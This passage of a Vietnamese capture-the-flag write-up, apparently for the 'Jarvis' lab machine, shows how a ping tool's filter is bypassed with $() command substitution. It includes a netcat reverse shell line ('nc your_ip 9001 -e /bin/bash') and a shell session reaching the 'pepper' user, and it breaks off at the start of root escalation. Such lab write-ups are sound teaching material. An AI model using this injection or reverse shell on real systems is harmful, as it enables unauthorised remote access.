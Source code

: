 > Hàm này thực hiện ping tới một địa chỉ ip và đầu vào của nó được filter các ký tự gây nên OS Command: **`'&', ';', '-', '`', '||', '|'`** 
Nhưng người viết tool này quên rằng có thể chạy command với `$()` như `$(ls)`(Hãy tìm hiểu về lỗ hổng OS Command để hiểu rõ vấn đề này)
> 
> 
> ![21.png](img/21.png)
> 

Vậy lúc này chúng ta có thể kiểm soát tool này với quyền như một người dùng `pepper` . Ý tưởng ở đây thì vẫn có 2 cách mà được biết:

- Tạo một file [shell.sh](http://shell.sh) với nội dung: `nc your_ip 9001 -e /bin/bash` , sau đó thực hiện `$(shell.sh)` - nhớ cần cấp quyền thực thi cho nó `chmod +x shell.sh`
- Chạy subshell `$(bash)` và có vấn đề stdout không hiển thị nên cần chuyển hướng `stdout` sang `stderr` bằng cách: `>&2 /bin/bash`

```shell
Enter an IP: $(bash)
$(bash)
pepper@jarvis:/var/www/html$ >&2 /bin/bash
>&2 /bin/bash
pepper@jarvis:/var/www/html$ ls
ls
ayax            css              images      room.php          sudo
b4nn3d          dining-bar.php   index.php   roomobj.php
cmd.php         fonts            js          rooms-suites.php
connect_db.php  footer.php       nav.php     sass
connection.php  getfileayax.php  phpmyadmin  shell.sh
```

```shell
pepper@jarvis:~$ cat user.txt
cat user.txt
5ebf94dfcd1cf0279efc805********
```

### pepper → root

Chúng ta đã tận dụng lỗ hổng trong tool [simpler.py](http://simpler.py) để leo quyền lên `pepper` . Vấn đề tiếp theo chúng ta cần leo tiếp lên `root`  . 

***Vậy làm cách nào ….. ?***

Đầu tiên chúng ta cần tìm cách file nhị phân có flag SUID mà cho phép người dùng thực thi file đó với quyền của chủ sở hữu (Ở đây là root).
